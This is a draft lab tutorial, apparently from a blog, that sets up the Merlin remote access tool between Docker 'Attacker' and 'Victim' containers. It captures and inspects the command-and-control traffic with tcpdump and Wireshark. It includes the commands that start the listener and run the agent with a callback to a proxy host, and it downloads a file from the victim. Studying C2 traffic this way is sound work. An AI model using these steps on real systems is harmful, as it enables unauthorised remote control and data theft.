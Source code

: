 ```yaml
---
title: Scenario number 1.
description: Draft
date: 2021-07-03
scheduled: 2021-07-03
layout: layouts/post.njk
order: 7
tags: posts
---
```


Let's see how a Remote Access Tool like Merlin communicates! We'll capture and read packets in two scenarios:

    * when the attacker connects straight to the victim,
    * when the attacker connects through our reverse proxy.

First, let's configure the merlin server. Go to the Attacker and open Merlin (remember that you can hit TAB to see all availeable options). Next, type `listeners` and `use http2`. Now we'll configure our HTTPS listener again. Type in `show`. Let's set Interface to our container's IP address, set Port to 5555, and rename it to MerlinListener. Normally you'd change the PSK, the preshared key you use in your first connection to the server, for something stronger but we'll leave it as is.

![merlin http setup](/img/remote/merlin-config.png)

Looks good! Let's start it.

Start up our Reverse Proxy and let's get on to our Victim. You should open two terminals, one for capturing and the other for connecting.
Start up the capture:

``` bash
tcpdump -s 65535 -i any -v -w my_capture.pcap
```

And in the other terminal let's start the agent. The address that we pass leads to our Reverse Proxy that will pass the traffic from and to our Attacker.

``` bash
./merlinAgent-Linux-x64 -url https://172.17.0.4/merlin -psk 'merlin' -v
```

We can already see a couple dozen packages just from the connection. If we wait we can see that each check-in from the agent generates another dozen packages.
Before we get a thousand of idle message packages, let's give our agent something to do. In Merlin type in `interact` and let TAB completion fill out agent ID. Next let's see what files our Victim with `ls`. We can see the `hello.txt` file we put on the Victim earlier. Let's download it back.

![download hello](/img/remote/merlin-job.png)

![agent job](/img/remote/agent-job.png)

Now let's stop the packet capture with `CTRL + C` as well as the agent and Merlin. Let's transfer the capture from the container to our Desktop, like before:

``` bash
docker cp edf2ed59c20d:/my_capture.pcap C:\Users\User\Desktop\my_capture.pcap
```

Open the file with WireShark and let's see what we captured.

![packet capture](/img/remote/packet-capture.png)

This is a whole lot of packets and seemingly unreadable information, and this isn't a tutorial about reading WireShark output, but we can get some snippets of information out of them.





















// one connection http straight to merlin
// one and half doesnt work http through proxy dunno why
// second connection http2 straight to merlin
// third connection http2 through proxy to merlin